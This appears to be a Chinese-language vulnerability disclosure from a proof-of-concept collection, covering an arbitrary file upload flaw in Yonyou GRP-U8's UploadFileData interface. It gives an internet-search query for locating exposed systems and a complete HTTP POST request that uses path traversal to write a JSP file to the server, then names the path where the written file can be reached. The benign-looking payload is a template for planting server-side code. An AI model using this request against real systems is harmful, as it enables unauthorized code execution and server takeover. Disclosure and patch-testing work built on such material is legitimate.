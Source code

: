 # 用友 GRP-U8 UploadFileData 任意文件上传漏洞

## 漏洞描述

用友 GRP-U8 UploadFileData接口存在任意文件上传漏洞，攻击者通过漏洞可以获取服务器权限

## 漏洞影响

```
用友 GRP-U8
```

## 网络测绘

```
app="用友-GRP-U8"
```

## 漏洞复现

登录页面

![image-20220824142321531](./images/202208241423596.png)

验证POC

```
POST /UploadFileData?action=upload_file&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&foldername=%2e%2e%2f&filename=debugg.jsp&filename=1.jpg HTTP/1.1
Host: 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=59227D2C93FE3E8C2626DA625CE710F9
Content-Type: multipart/form-data
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36

------WebKitFormBoundary92pUawKc
Content-Disposition: form-data; name="myFile";filename="test.jpg"

<% out.println("123");%>
------WebKitFormBoundary92pUawKc--
```

![image-20220824142335805](./images/202208241423854.png)

访问写入的文件

```
/R9iPortal/debugg.jsp
```

![image-20220824142350845](./images/202208241423890.png)